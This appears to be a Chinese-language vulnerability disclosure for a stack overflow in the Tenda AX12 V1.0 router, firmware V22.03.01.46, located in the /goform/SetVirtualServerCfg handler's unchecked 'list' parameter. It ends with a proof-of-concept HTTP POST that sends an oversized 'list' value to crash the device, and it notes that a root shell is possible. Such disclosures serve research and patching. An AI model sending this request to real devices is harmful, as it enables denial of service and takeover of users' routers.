

### **概述**：
影响设备：Tenda AX12 V1.0
影响固件版本：V22.03.01.46
影响：拒绝服务攻击，栈溢出可以进一步获得root shell
固件下载地址：<https://www.tenda.com.cn/download/detail-3621.html>

### **漏洞**：
该漏洞位于`/goform/SetVirtualServerCfg`中对获取的请求参数`list`没有长度限制，最终可以导致堆栈溢出
在`httpd`文件中的`sub_41DE60`函数中存在目标漏洞函数`sub_43B1B4`

漏洞存在于`sub_43AF3C`中：

可以看到将请求参数`list`传入变量`v3`，由于并未对变量`v3`做长度限制，下面的`sscanf`函数将以逗号作为分隔将`v3`的值分别传入`v12,v11,v10,v9`，而这几个变量只需要一定长度的填充就可以栈溢出，可以轻易的导致拒绝服务攻击，进一步构造exp能够获取shell,漏洞如下图:

### **POC**:

~~~
POST /goform/SetVirtualServerCfg HTTP/1.1
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 23
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Host: 192.168.122.15
Origin: http://192.168.122.15
Proxy-Connection: keep-alive
Referer: http://192.168.122.15/index.html
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
X-Requested-With: XMLHttpRequest

list="a"*0x2000

~~~

### **影响效果**：

